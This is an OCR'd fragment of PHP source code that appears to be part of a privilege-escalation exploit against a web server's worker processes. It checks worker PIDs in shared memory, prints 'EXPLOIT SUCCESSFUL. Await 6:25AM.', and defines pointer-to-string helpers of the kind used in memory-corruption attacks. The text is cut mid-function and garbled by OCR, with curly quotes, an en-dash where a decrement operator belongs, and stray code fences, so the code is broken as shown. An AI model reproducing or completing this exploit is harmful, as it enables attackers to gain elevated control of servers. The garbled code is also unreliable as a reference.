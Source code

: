 		}
	}

	if(count($workers_pids) &gt; 0)
	{
		o(
			'Unable to find PIDs ' .
			implode(', ', $workers_pids) .
			' in SHM, exiting.'
		);
		exit();
	}

	o('');
	o('EXPLOIT SUCCESSFUL.');
	o('Await 6:25AM.');

	return 0;
} 
```

}

function o($msg)

{

# No concatenation -> no string allocation

print($msg);

print("\n");

}

function ptr2str($ptr, $m=8)

{

$out = “”;

for ($i=0; $i<$m; $i++)

{

$out .= chr($ptr & 0xff);

$ptr >>= 8;

}

return $out;

}

function str2ptr(&$str, $p, $s=8)

{

$address = 0;

for($j=$s-1;$j>=0;$j–)

{

```